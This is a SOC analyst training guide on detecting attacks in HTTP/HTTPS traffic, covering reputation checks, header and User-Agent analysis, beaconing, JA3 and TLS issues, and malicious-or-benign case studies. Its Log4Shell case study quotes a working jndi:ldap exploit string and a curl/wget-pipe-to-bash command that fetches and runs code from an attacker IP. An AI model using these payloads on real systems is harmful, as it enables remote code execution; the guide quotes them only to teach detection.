> **Goal of this section:**
> You'll understand how attackers use HTTP in every stage of an attack, and how to analyze HTTP traffic to detect attacks. You'll learn to use automated tools and manual analysis, and understand HTTPS and its challenges in the SOC.

---

## Table of Contents

- [Introduction](#introduction)
- [HTTP in the Cyber Kill Chain](#http-in-the-cyber-kill-chain)
- [HTTP Analysis Methods](#http-analysis-methods)
- [URL Reputation Checks](#url-reputation-checks)
- [Screenshot Tools for Phishing](#screenshot-tools-for-phishing)
- [Sandboxing](#sandboxing)
- [Manual Header Analysis](#manual-header-analysis)
- [User-Agent Analysis](#user-agent-analysis)
- [Cookies as an Attack Vector](#cookies-as-an-attack-vector)
- [Base64 Encoding](#base64-encoding)
- [File Extraction from the PCAP](#file-extraction-from-the-pcap)
- [High Frequency Beaconing](#high-frequency-beaconing)
- [Naked IP Address](#naked-ip-address)
- [Exploit Kits](#exploit-kits)
- [HTTPS and Its Challenges](#https-and-its-challenges)
- [TLS Decryption](#tls-decryption)
- [JA3 and TLS Fingerprinting](#ja3-and-tls-fingerprinting)
- [TLS 1.3 and the New Problems](#tls-13-and-the-new-problems)
- [Case Studies: Malicious or Benign?](#case-studies-malicious-or-benign)
- [Summary](#summary)

---

## Introduction

HTTP is the most widely used protocol on the internet, and that's exactly what makes it the most widely used by attackers too. Because HTTP traffic is almost always allowed on any network, the attacker hides inside normal traffic.

As a Blue Team Analyst, you need to know:
- How attackers use HTTP in every stage of an attack
- How to analyze HTTP quickly and correctly
- Which tools are available for automated and manual analysis

---

## HTTP in the Cyber Kill Chain

Attackers use HTTP in almost **every stage** of an attack:



| Attack Stage | Use of HTTP |
|---|---|
| Deliver / Exploit | Exploit Kits, Phishing sites, Fake Updates |
| Installation | Downloading malware over HTTP |
| Command and Control | Malware sends GET/POST requests periodically |
| Data Exfiltration | Uploading encrypted or encoded data |

> [!IMPORTANT]
> HTTP is used in almost every stage of the Cyber Kill Chain, which makes it a key thing for a SOC Analyst to understand well.

---

## HTTP Analysis Methods

There are two approaches to analysis. The automated approach is faster, but the manual one is more accurate:



> [!TIP]
> Always start with the fastest option. If the URL reputation check gives you a result, you don't need to go into manual analysis. Save your time for the hard cases.

---

## URL Reputation Checks

This is the simplest and fastest thing to do when you see a suspicious URL:

### What Happens?
- You submit the URL to a specialized site
- The site tells you whether the URL is known to be malicious
- **But a negative result doesn't mean the URL is safe!**

### A Very Important Point

> [!WARNING]
> **A Safe Domain Does Not Mean a Safe URL!**
> You can have a malicious URL on a well-known, safe domain, such as:
> - A hacked WordPress blog
> - A malware file uploaded to Dropbox
> - A watering hole attack on a real company's website

### Illustrative Example
```
Domain: dropbox.com         --> Reputation: GOOD
URL: dropbox.com/s/xyz/virus.exe --> Could be EVIL
```

---

## Screenshot Tools for Phishing

When you need to look at a phishing site, don't open it directly. Use tools that take a screenshot for you:

| Tool | Description | Does It Share the Link? |
|---|---|---|
| **urlscan.io** | Full details of all network transactions | Yes |
| **page2images.com** | Simple, fast screenshot | No |
| **phishtank.com** | Community voting on phishing sites | Yes |
| **hybrid-analysis.com** | Screenshot + full sandbox analysis | Yes |
| **URLQuery.net** | Screenshot + IDS rule checks | Yes |

> [!WARNING]
> If the case is sensitive and you don't want anyone to know you're investigating, use only **page2images.com**, because it doesn't save the links.

---

## Sandboxing

When the URL reputation check isn't enough, you use **Sandboxing**: you let a virtual machine open the URL while you watch:



### Tool Comparison

| Tool | Level | Best For |
|---|---|---|
| **urlscan.io** | Beginner | Network-centric analysis |
| **hybrid-analysis.com** | Advanced | Malware behavior on host |
| **any.run** | Advanced | Interactive analysis |

> [!NOTE]
> A sandbox doesn't just give you a screenshot. It gives you a PCAP, IDS alerts, MITRE ATT&CK hits, and sometimes the files that were downloaded.

---

## Manual Header Analysis

When the automated tools aren't enough, you start examining the headers by hand. Here's what to look at:



### Questions to Ask About Each Header

| Header | The Question to Ask |
|---|---|
| `Host` | Is the domain known? Is there an IP instead of a hostname? |
| `User-Agent` | Does it match the environment? Is the version very old? |
| `Path` | Does it contain random characters? Is there any encoding? |
| `Cookie` | Does it contain unusual encrypted data? |
| `Content-Type` | Does it actually match the body content? |

---

## User-Agent Analysis

The User-Agent is an optional field written by the program itself, which means it's easy to forge.

### Why Does Malware Show Up in the User-Agent?

1. **A lot of malware doesn't bother creating a realistic User-Agent**, so you see strange or empty values
2. **Some malware mimics a fixed User-Agent**, such as Chrome 95.0, and when the environment gets updated, it doesn't
3. **The OS may not match**, such as a Linux User-Agent on a network that only has Windows

### Anatomy of a Real User-Agent

```
Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
```

| Part | Meaning |
|---|---|
| `Mozilla/5.0` | Almost every browser starts with it, for historical reasons |
| `Windows NT 10.0; Win64; x64` | The OS is 64-bit Windows 10 |
| `rv:97.0` | The browser engine version |
| `Gecko/20100101` | The name of the rendering engine (Firefox) |
| `Firefox/97.0` | The browser name and version |

> [!TIP]
> Run a **Frequency Analysis** on all the User-Agents on the network. The odd one that keeps repeating is the suspicious one.

> [!WARNING]
> If you see just `Mozilla` without `5.0`, that's suspicious. If you see something that doesn't start with `Mozilla` at all, it's most likely not a browser and could be malware.

---

## Cookies as an Attack Vector

The Cookie header is one of the clever places attackers hide Command and Control data, because:
- Most logs don't record cookie contents in detail
- It looks normal in any HTTP request
- It has enough room to carry data

### Real-World Example: ChChes Malware

```http
GET /X4iBJjp/MtD1xyoJMQ.htm HTTP/1.1
Cookie: uHa5=kXFGd3JqQHMfnMbi9mFZAJHCGja0ZLs%3D;KQ=yt%2Fe...
Host: kawasaki.unhamj.com
```

The cookie here contains Base64-encoded C2 data.

### Real-World Example: NotPetya Malware

NotPetya's cookie contained `un=Admin`, meaning the malware was telling the C2 server that it was running with admin privileges!

> [!WARNING]
> If you see a cookie with Base64 content going to a strange domain, that's a very big red flag.

---

## Base64 Encoding

### What Is Base64?

Base64 is a way of converting any bytes into printable ASCII characters. The idea:



### How Can You Tell a String Is Base64?

- It contains: `A-Z`, `a-z`, `0-9`, `+`, `/`, `=`
- It often ends with `=` or `==`
- Its length is a multiple of 4

### Example

```
Original text: Hello
Base64: SGVsbG8=
```

### Why Does Malware Use Base64?

1. To evade signature-based detection
2. To hide the content of the data being transferred
3. It isn't encryption, but it complicates quick analysis

> [!IMPORTANT]
> Base64 is not encryption! You can decode it easily. If you see Base64 somewhere unexpected, try decoding it and see what's inside.

### Tools

```bash
# Linux command line
echo "SGVsbG8=" | base64 -d

# CyberChef online tool - easier and faster
```

### Examples of APT Malware That Uses Base64

| Malware | Where Is the Base64? |
|---|---|
| APT19 | In the Cookie header with a GET request |
| Ixshe | In the body with a POST request |
| ChChes | In the cookie as a C2 channel |

---

## File Extraction from the PCAP

When you see that someone downloaded a suspicious file, you can extract it from the PCAP and analyze it:

### In Wireshark

```
File > Export Objects > HTTP
```

Then choose the file you want and save it.

> [!WARNING]
> **A very important rule:** If the file is a Windows executable, extract it on a Linux machine only. Don't open it on Windows, so you don't infect yourself by accident!

### Dangerous Files to Handle with Care

| Type | Extension | Risk |
|---|---|---|
| Windows Executable | .exe, .dll, .scr | Can run with a double-click |
| Scripts | .js, .vbs, .ps1 | Windows may run them |
| Office files | .doc, .docm | May contain macros |

> [!NOTE]
> Extracting files from HTTP/2 isn't possible the same way; you have to do manual carving from the DATA frames.

---

## High Frequency Beaconing

Malware that uses HTTP for C2 has to "check in" with the C2 server regularly:



### Signs of Beaconing

- **High Volume:** More than 100 POSTs per hour to a strange domain
- **Periodic:** Requests arrive at a fixed interval
- **New/Untrusted Domain:** Not in the Top 1000 Sites
- **POST to Root:** `POST /` instead of `POST /api/endpoint`

### Detection Tools

| Tool | Function |
|---|---|
| **RITA** (Black Hills) | Detects periodic signals even when the interval is long |
| **SIEM Rules** | A rule such as "Alert if more than 100 POSTs go to non-Top-1000 sites in one hour" |
| **Zeek** | Generates `conn.log`, which helps with pattern analysis |

---

## Naked IP Address

When malware connects directly to an IP without a hostname, that's a red flag:

```http
POST / HTTP/1.1
Host: 45.155.205.233
Content-Type: application/x-www-form-urlencoded

data=base64encodedstuff
```

### Why Is This Suspicious?
- Most real applications use hostnames
- C2 servers often use IPs directly
- `POST to /` with no path or script is not normal

> [!WARNING]
> **Two signs in one:** An IP instead of a hostname + a POST directly to `/` = a very high likelihood of C2.

---

## Exploit Kits

### What Is an Exploit Kit?

It's an automated system designed to infect a user simply by visiting a certain site, without any interaction from them!



### How Does an Exploit Kit Work?

1. The attacker hacks a legitimate site or pays for malvertising
2. The user visits the site
3. The EK scans the browser and plugins
4. It picks the right exploit for the victim
5. It sends a customized payload

### Signs of an Exploit Kit in the Traffic

| Sign | Explanation |
|---|---|
| New, unknown domains | The EK uses fresh domains |
| Random subdomains | Evading signatures |
| Long, encoded URLs | Hiding the parameters |
| Heavily obfuscated JavaScript | Anti-reversing |
| An .exe file at the end of the chain | The payload has arrived |

> [!NOTE]
> The good news: exploit kits have declined a lot in recent years because of the decline of Flash and Java and improvements in browsers. But they still exist!

---

## HTTPS and Its Challenges

### The Problem

HTTPS is great for personal security, but it's a big problem for the Blue Team:



### What Can You See Without Decryption?

| Layer | Available Information |
|---|---|
| IP Layer | Destination IP, ASN, GeoIP |
| TCP Layer | Port number (suspicious if not 443) |
| Session Layer | Certificate details (Subject, Issuer) |
| Application Layer | **Nothing**; it's all encrypted |

> [!WARNING]
> TLS 1.3 is here, and it encrypts even the certificate exchange. With the arrival of Encrypted Client Hello (ECH), you'll lose even the ability to know which domain the user is visiting!

---

## TLS Decryption

### How Does TLS Decryption Work?

It's a type of man-in-the-middle that the organization performs officially:



### Requirements

1. The organization creates its own **Root CA**
2. The Root CA certificate is installed on every client
3. The decryption device generates certificates for each site on the fly
4. The browser accepts the certificate because it trusts the Root CA

> [!IMPORTANT]
> Without TLS decryption, you'll be blind to most modern HTTP traffic. Investing in TLS inspection is essential for the SOC.

---

## JA3 and TLS Fingerprinting

### The Clever Idea

Every program connects over TLS in a slightly different way: the ciphers it supports, the extensions, and so on. We can fingerprint each program based on that!



### JA3 vs JA3S vs JARM

| Type | Built From | Represents |
|---|---|---|
| **JA3** | ClientHello | A fingerprint of the client (browser or malware) |
| **JA3S** | ServerHello | A fingerprint of the server |
| **JARM** | Active probing | A fingerprint of the C2 server, obtained actively |

### Example

```
Firefox 95 on Windows 10:
JA3 Hash = bd50e49d418ed1777b9a410d614440c4
```

If you see a JA3 hash that's unknown or matches known malware, that's a red flag, even without seeing the content of the traffic!

> [!TIP]
> Tools such as **Zeek** calculate JA3 and JA3S automatically for every connection. Feed them into the SIEM and look for anomalies.

---

## TLS 1.3 and the New Problems

### The Big Changes in TLS 1.3

| Feature | TLS 1.2 | TLS 1.3 |
|---|---|---|
| Certificate Exchange | Plaintext | **Encrypted** |
| SNI Field | Plaintext | To be encrypted with ECH in the future |
| Perfect Forward Secrecy | Optional | **Mandatory** |
| Passive Decryption | Possible with the private key | **Impossible** |
| Downgrade Attack | Possible | **Protected** |

### Why Is Perfect Forward Secrecy a Problem?



> [!WARNING]
> With the upcoming Encrypted Client Hello (ECH), even knowing which domain the user is connecting to will disappear. Planning is needed **now** for the future of network monitoring.

---

## Case Studies: Malicious or Benign?

### Case 1: Log4Shell Attack (CVE-2021-44228)

**The Request:**
```http
GET /${jndi:ldap://45.155.205.233:12344/a} HTTP/1.1
User-Agent: ${jndi:ldap://...}
Referer: ${jndi:ldap://...}
```

**Analysis:**
- The URL, User-Agent, and Referer all contain `jndi:ldap://`
- This is an exploit attempt against the Apache Log4j vulnerability
- It contains Base64-encoded commands:
```bash
(curl -s 45.155.205.233:5874/victim_ip||wget -q -O- 45.155.205.233:5874/victim_ip)|bash
```

**Verdict: ⛔ MALICIOUS**

---

### Case 2: Dynamic DNS Redirect Chain

**The Request:**
```http
GET /[encoded_path] HTTP/1.1
Host: download2.go.dyns.org
Referer: http://fiscal.servebbs.com
```

**Analysis:**
- The Referer is a Dynamic DNS domain (servebbs.com)
- The Host is also Dynamic DNS (dyns.org)
- The path is obfuscated with URL encoding
- The result: a redirect to `fiscal.homelinux.com/Nota.zip`, a third Dynamic DNS domain!

**Verdict: ⛔ MALICIOUS — Phishing download chain**

> [!TIP]
> Always watch out for Dynamic DNS domains such as servebbs.com, dyns.org, homelinux.com, and dyndns.org. They are frequently used in attacks.

---

### Case 3: Cobalt Strike BEACON

**The Request:**
```http
GET /jquery-3.3.1.min.js HTTP/1.1
Host: klycnmik.com
Cookie: [encrypted C2 data]
```

**Analysis:**
- It repeatedly requests jQuery from a strange domain
- The traffic isn't over HTTPS
- The cookie contains encrypted C2 data
- The domain is neither known nor trusted

**Verdict: ⛔ MALICIOUS — Cobalt Strike BEACON**

> [!NOTE]
> Cobalt Strike BEACON can disguise itself in any form. If you see jQuery or other popular files being downloaded repeatedly from a strange domain, dig deeper.

---

## Summary

### Key Points

- **HTTP is used in every stage of an attack**, from delivery to exfiltration
- **Start with automated, then manual**: save your time for the hard cases
- **A safe domain does not mean a safe URL**: run the reputation check on the URL, not just the domain
- **The User-Agent can be forged**, but it often gives malware away
- **The cookie can be a C2 channel**: look at it carefully
- **Base64 is not encryption**: always try to decode it
- **Beaconing = Repeated Periodic Requests**: use RITA or SIEM rules to detect it
- **A naked IP in the Host header = Red Flag**
- **TLS decryption is essential** for full visibility
- **JA3 helps you even without decryption**
- **TLS 1.3 and ECH will reduce visibility**: plan early


